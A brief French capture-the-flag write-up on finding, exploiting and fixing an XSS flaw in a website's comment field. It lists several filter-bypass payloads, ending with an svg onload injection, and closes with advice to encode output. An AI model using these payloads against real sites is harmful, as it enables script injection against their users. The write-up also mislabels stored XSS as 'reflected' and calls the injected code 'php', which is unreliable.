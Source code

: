 ## Phase 1 : Découverte de la faille

Lorsqu'un site stocke des commentaires ou n'importe quelle entree utilisateur pour le retourner aux autre utilisateurs, il est interessantd de tester une faille XSS reflected. 

Le pricnipe de ce type de faille est d'entrer dans nos donnees envoyees au serveur du code php malveillant qui va s'executer quand un utilisateur viendra sur la page.

## Phase 2 : Exploitation de la faille

En envoyant directement du code html et php dans le commentaire on voit que le site verifie quand meme certaines balises et les enleve.

Mais il est possible que certaines balises ne soient pas verifiees, on teste donc un certains nombre d'entre elles comme :

<img src="x" onerror="alert('XSS')">
<scr<script>ipt>alert('XSS')</script>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;alert('XSS')>
<a href="javascript:alert('XSS')">Clique ici</a>


Et on arrive enfin a la solution :

<svg/onload=alert('XSS')>a

Qui nous donne acces au flag.

## Phase 3 : Comment corriger la faille

La solution a privilegier est l'encodage des caracteres speciaux comme les balises html ou javascript. Il existe des librairies 
tres efficaces qui permettent d'encoder facilement les ce genre de caracteres : html.escape() en python par exemple.

